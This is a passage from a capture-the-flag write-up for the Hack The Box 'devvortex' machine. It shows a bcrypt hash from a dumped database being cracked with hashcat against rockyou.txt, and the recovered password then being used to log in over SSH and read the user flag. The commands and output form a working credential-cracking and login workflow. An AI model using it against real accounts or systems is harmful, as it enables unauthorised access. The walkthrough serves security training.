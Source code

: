 The `$2y$10$...` prefix in the values of the `password` column, however, indicates we have some `bcrypt` hashes that we can try to decrypt. I don’t think we really care about the `lewis` user anymore,
so we’ll grab `logan`'s hash and run it through `hashcat` against the classic capture-the-flag wordlist `rockyou.txt`:

```bash
[please@ruby]:[~/Documents/ctfs/htb/devvortex] $ hashcat --help | grep -ie "bcrypt"
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
[please@ruby]:[~/Documents/ctfs/htb/devvortex] $ echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > logan.bcrypt-hash
[please@ruby]:[~/Documents/ctfs/htb/devvortex] $ hashcat -a 0 -m 3200 logan.bcrypt-hash ~/git/red_tools/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting

# ...

Host memory required for this attack: 843 MB

Dictionary cache built:
* Filename..: /home/please/git/red_tools/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho

[...]
```

Heading back to the server with plaintext credentials in hand, we can close out of our reverse shell, and login using `logan@<IP>` with `tequieromucho` as the password:

```bash
[please@ruby]:[~] $ ssh logan@10.129.45.143
The authenticity of host '10.129.45.143 (10.129.45.143)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: 10.10.11.242
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.45.143' (ED25519) to the list of known hosts.
logan@10.129.45.143's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

[...]

Last login: Tue Nov 21 10:53:48 2023 from 10.10.14.23
logan@devvortex:~$ cat user.txt
a285f0ff772a16a92ae496048f8ec17f
```
